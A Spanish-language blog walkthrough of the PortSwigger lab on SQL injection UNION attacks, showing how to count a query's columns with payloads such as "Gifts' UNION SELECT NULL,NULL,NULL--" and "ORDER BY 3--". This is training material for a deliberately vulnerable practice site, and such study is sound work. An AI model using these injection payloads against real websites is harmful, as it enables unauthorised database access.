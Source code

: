 ```yaml
---
title: "03 SQLi UNION attack determining the number of columns returned by the query"
collection: publications
category: portswigger
permalink: /publications/03_SQL injection UNION attack, determining the number of columns returned by the query
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría del filtro de productos. Esta vulnerabilidad puede explotarse mediante un ataque UNION para recuperar datos de otras tablas. Para resolver el laboratorio, realizamos un ataque de inyección SQL que determina el número de columnas que devuelve la consulta. Este es el primer paso de un ataque UNION de inyección SQL. Utilizaremos esta técnica en laboratorios posteriores para construir el ataque completo.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQLi UNION attack determining the number of columns returned by the query'
---
```


![logo]({{site.url}}/images/SQLi/sqli-3/logo.png)

Lab-Link: <https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns>  
Dificultad: APPRENTICE  

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-3/descripcion.png)

## Objetivo del laboratorio

Determinar el número de columnas devueltas por la consulta realizando un ataque de inyección SQL UNION que devuelva una fila adicional que contenga valores nulos.

## Query

![categorias]({{site.url}}/images/SQLi/sqli-3/categorias y url.png)

La consulta utilizada en el laboratorio tendrá un aspecto similar a

```sql
SELECT * FROM tabla WHERE category = '<CATEGORY>'
```

Comprobamos que es vulnerable a SQLi insertando en la url parametros:

![Comprobar]({{site.url}}/images/SQLi/sqli-3/comprobar.png)

## Determinar el numero de columnas retornadas por la consulta

1) La consulta de forma interna se veria algo asi con el primer metodo para mirar las columnas:

```sql
SELECT ? FROM tabla UNION SELECT NULL
SELECT ? FROM tabla UNION SELECT NULL, NULL
SELECT ? FROM tabla UNION SELECT NULL, NULL, NULL
```

Vamos insertando `NULL` con `UNION SELECT` para ver cuantas columnas estan disponibles etc...

2) Probamos con `ORDER BY` para ver que cantidad son vulnerables, vamos incrementando el numero

```sql
SELECT a,b FROM tabla ORDER BY 1
SELECT a,b FROM tabla ORDER BY 2
SELECT a,b FROM tabla ORDER BY 3
```

## Forma determinal con NULL
```sql
filter?category=Gifts' UNION SELECT NULL,NULL,NULL--
```
La web para a realizar el `URL ENCONDE` y quedaria algo asi:
![url enconde]({{site.url}}/images/SQLi/sqli-3/NULL.png)

En BurpSuite se veria de la siguiente forma
![BurpSuite]({{site.url}}/images/SQLi/sqli-3/burp.png)

## Forma determinal con ORDER BY
```sql
filter?category=Gifts' ORDER BY 3--
```
Sin Url Encode
![url]({{site.url}}/images/SQLi/sqli-3/url.png)

La web para a realizar el `URL ENCONDE` y quedaria algo asi:
![url_enconde]({{site.url}}/images/SQLi/sqli-3/url encode.png)

Aprobado
![Aprobado]({{site.url}}/images/SQLi/sqli-3/aprobado.png)